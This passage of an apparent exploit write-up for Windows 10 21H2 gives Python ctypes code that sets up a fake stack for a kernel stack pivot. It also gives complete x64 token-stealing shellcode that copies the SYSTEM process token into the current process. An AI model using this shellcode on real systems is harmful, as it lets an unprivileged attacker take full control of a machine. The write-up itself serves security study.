 ```python

    if buffer == 0:
        print('Failed to allocate fake stack buffer')
        return -1

    # The fake stack will be actually in the middle of the big chunk we allocated
    fake_stack_ptr = buffer + int(FAKE_STACK_SIZE / 2)

    if fake_stack_ptr > 0xffffffff:
        print('Fake stack pointer is larger than 2^32')
        return -1

    # The following lines will just move the values in the fake_stack variable to the actual fake stack we allocated with VirtualAlloc
    tmp_c_buffer = (c_char * len(fake_stack)).from_buffer(fake_stack)
    windll.kernel32.RtlMoveMemory(fake_stack_ptr, tmp_c_buffer, len(fake_stack))

    return fake_stack_ptr
```

Now comes the last part. The actual privilege escalation shellcode.


#### 4 - Token stealing

The token stealing shellcode consists of a sequence of instructions that aims to replace the token of our current process by the token of the System process (PID 4). The shellcode was already [well expained in this blogpost of Connor McGarr](https://connormcgarr.github.io/x64-Kernel-Shellcode-Revisited-and-SMEP-Bypass/).

In order to make the shellcode work properly, I had to modify some parts of it. The strucutres offsets are different for the Windows version I'm using. Additionally, since we did the stack pivoting, I had to recover the previous RSP before returning (we lost its value because our stack pivoting gadget was `mov esp, ebx`). Two more instructions were added to the shellcode. In order to recover the RSP, I just used RBP with an offset, since RSP and RBP control together the stack frame (and the offset between them will be always the same for the same stack frame).

The final token stealing payload is the following:

```x86asm
# Token Stealing and RSP recovery - Windows 10 x64 version 21H2 (Build 19044.1586)

_start:
    mov rax, [gs:0x188]       # Current thread (_KTHREAD)
    mov rax, [rax + 0xb8]     # Current process (_EPROCESS)
    mov rbx, rax              # Copy current process (_EPROCESS) to rbx

_loop:
    mov rbx, [rbx + 0x448]    # Get next process (ActiveProcessLinks)
    sub rbx, 0x448            # Go back to _EPROCESS
    mov rcx, [rbx + 0x440]    # UniqueProcessId (PID)
    cmp rcx, 4                # Compare PID to SYSTEM PID 
    jne _loop                 # Loop until SYSTEM PID is found

    mov rcx, [rbx + 0x4b8]    # SYSTEM token is @ offset _EPROCESS + 0x4b8
    and cl, 0xf0              # Clear out _EX_FAST_REF RefCnt
    mov [rax + 0x4b8], rcx    # Copy SYSTEM token to current process

    mov rsp, rbp              # Here we use the base pointer to restore the stack pointer (we lost in stack pivot)
    sub rsp, 0x118
    xor rax, rax
    ret                       # Done!

```
